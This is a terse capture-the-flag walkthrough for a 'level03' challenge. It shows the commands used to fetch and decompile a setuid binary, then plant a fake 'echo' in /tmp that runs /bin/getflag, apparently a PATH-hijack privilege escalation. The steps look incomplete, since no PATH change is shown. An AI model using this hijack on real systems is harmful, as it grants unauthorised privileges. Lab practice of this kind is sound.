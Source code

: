 # hint
dogbolt

# cmd
* ``ls -la``
    * level03 -> exe
* ``./level03``
    * Exploit me
* ``scp -P 4242 level03@10.14.200.79:level03 .`` -> dogbolt donne level03.c
* write echo.c which return ``system("/bin/getflag")`` in ``/tmp``
* in ``/tmp`` do ``gcc echo.c -o echo``
* in ``~`` do ``gcc echo.c -o echo``
* ``./level03``